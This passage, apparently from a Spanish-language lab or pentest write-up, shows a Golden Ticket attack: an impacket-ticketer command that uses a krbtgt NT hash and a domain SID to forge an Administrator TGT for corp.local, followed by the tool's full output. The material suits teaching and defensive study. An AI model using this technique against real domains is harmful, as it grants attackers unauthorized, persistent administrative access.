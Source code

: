 Y con esto sabremos que el `SID` que nos inetersa es:

```
DomainSID   : S-1-5-21-3352250647-938130414-2449934813
```

Por lo que haremos lo siguiente:

```shell
impacket-ticketer -nthash 3f6f27ccbcb235da4602454dff0efb47 -domain-sid S-1-5-21-3352250647-938130414-2449934813 -domain corp.local Administrator
```

Info:

```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
/usr/share/doc/python3-impacket/examples/ticketer.py:141: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  aTime = timegm(datetime.datetime.utcnow().timetuple())
[*] Customizing ticket for corp.local/Administrator
/usr/share/doc/python3-impacket/examples/ticketer.py:600: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  ticketDuration = datetime.datetime.utcnow() + datetime.timedelta(hours=int(self.__options.duration))
/usr/share/doc/python3-impacket/examples/ticketer.py:718: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['authtime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
/usr/share/doc/python3-impacket/examples/ticketer.py:719: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encTicketPart['starttime'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
/usr/share/doc/python3-impacket/examples/ticketer.py:843: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  encRepPart['last-req'][0]['lr-value'] = KerberosTime.to_asn1(datetime.datetime.utcnow())
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```

Lo que estamos haciendo aqui es generar ese `TGT` del usuario `Administrador` con el `hash` del usuario `krbtgt` que obtuvimos.
